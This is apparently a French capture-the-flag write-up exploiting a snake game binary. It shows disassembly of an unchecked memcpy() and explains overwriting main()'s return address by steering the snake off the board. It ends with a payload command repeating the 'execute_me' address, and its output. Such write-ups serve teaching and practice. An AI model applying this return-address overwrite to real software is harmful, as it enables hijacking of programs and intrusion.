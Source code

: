 1. *draw()* affiche le tableau à l'aide des fonctions ncurses
2. *keyboard\_move* est appelé pour lire une touche du clavier
3. le tableau est réécrit en utilisant à nouveau memcpy() pour placer le nom du joueur aux nouvelles coordonnées

En observant les crashs (via gdb ou simplement via dmesg) on note que c'est ce dernier memcpy() qui est faillible.  

Le code qui nous intéresse est le suivant :  

```asm
0x08048e19    8b44241c     mov eax, dword [esp + 0x1c] ; ici on a les ordonnées (y) du serpent
0x08048e1d    c1e004       shl eax, 4                  ; multiplication par 16 (soit une ligne)
0x08048e20    01d8         add eax, ebx                ; ebx = début du tableau
0x08048e22    03442418     add eax, dword [esp + 0x18] ; ajout des abscisses (x)
0x08048e26    894c2408     mov dword [esp + 8], ecx    ; ecx = longueur du username
0x08048e2a    89542404     mov dword [esp + 4], edx    ; edx = username
0x08048e2e    890424       mov dword [esp], eax        ; eax = adresse où copier le username
0x08048e31    e83af9ffff   call sym.imp.memcpy
```

*keyboard\_move* ajoute 1 aux ordonnées si on se déplace vers le bas et 1 aux abscisses si on va à droite.  

Aucune vérification n'a été faite sur la sortie du tableau par conséquent l'idée est de définir l'adresse d'*execute\_me* comme username, de nous positionner en dehors du tableau vers le bas pour écraser ce qu'il y a après (c'est à dire l'adresse de retour du main() car le tableau est réservé dedans) puis de quitter le jeu avec 'q' pour sortir de la boucle de *play\_game* pour attendre l'instruction ret à l'adresse 0x08048ede.  

Il faut bien voir qu'à chaque déplacement memcpy() est appelé donc on écrase à chaque fois au moins un dword (ou plus en fonction de la longueur du username, tronqué à 32 caractères).  

A nous de ne pas aller trop loin dans l'écrasement de la mémoire pour ne pas obtenir un résultat inattendu.  

Dans la pratique il m'aura suffit de remplir une ligne avec l'adresse d'*execute\_me* répétée 4 fois puis de descendre seulement 1 ligne en dehors du tableau avant de quitter :  

```plain
$ ./snaaaake `python -c "print '\x80\x89\x04\x08'*4"`
Awesome!
Erreur de segmentation
```


*Published June 01 2016 at 11:54*
